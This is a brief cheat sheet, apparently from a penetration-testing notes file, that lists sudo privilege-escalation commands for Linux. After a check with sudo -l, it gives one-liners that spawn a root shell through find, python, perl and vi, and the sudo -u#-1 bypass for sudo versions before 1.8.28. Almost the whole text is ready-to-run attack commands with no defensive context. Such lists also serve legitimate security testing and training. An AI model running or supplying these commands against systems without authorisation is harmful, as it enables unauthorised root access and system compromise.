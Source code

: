 Check sudo premissions - sudo -l

With find premissions - sudo find . -exec bash -i \;

With python premissions - sudo python -c 'import pty;pty.spawn("/bin/bash")'

With perl premissions - sudo perl -e 'exec "/bin/bash";'

With vi premissions - Open vi and write shell OR write sudo vi -c ':shell'in the terminal

With /bin/bash premissions before version 1.8.28 - sudo -u#-1 /bin/bash
